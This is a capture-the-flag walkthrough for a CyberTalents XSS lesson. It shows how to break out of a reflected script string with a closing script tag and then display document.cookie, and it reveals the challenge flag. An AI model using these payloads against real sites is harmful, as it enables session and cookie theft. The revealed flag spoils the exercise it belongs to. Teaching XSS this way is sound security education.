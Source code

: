 # Lesson 9: XSS

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/9-xss](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/9-xss)*

## Introduction

In this lesson, we will learn about XSS, how to exploit it, and how to prevent it.

## Challenge

> Name:\
> *Searching for the cookie.*

---

> Description:\
> *simple search website we need to know which cookie to eat ;)*

## Solution

In this challenge, we have a simple search website, it has a search box, and when we search for something, it will return the search results.

Now, we need to find a way to get the cookie, so we can do that by using `XSS`.

so, we will try to inject some `XSS` payload in the search box, like this:

```html
<script>alert("xss")</script>
```

and nothing happened, if we took a look at the source code, we will find this line:

```html
<script>var currentSearch = {'keyword':'you searched for: <script>alert("xss")</script>'};</script>
```

so, we might try to close the `script` tag before the `alert` function, like this:

```html
</script> <script>alert("xss")</script>
```

and we will get an alert that tells us `xss`.

so, we can try to get the cookie by using `document.cookie`, like this:

```html
</script> <script>alert(document.cookie)</script>
```

and we will get an alert that tells us the cookie. like this:

```html
x=try+to+execute+some+js+; flag=coolcookie112
```

## Flag

> coolcookie112

## References

- [https://www.w3schools.com/jsref/prop_doc_cookie.asp](https://www.w3schools.com/jsref/prop_doc_cookie.asp)

- [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
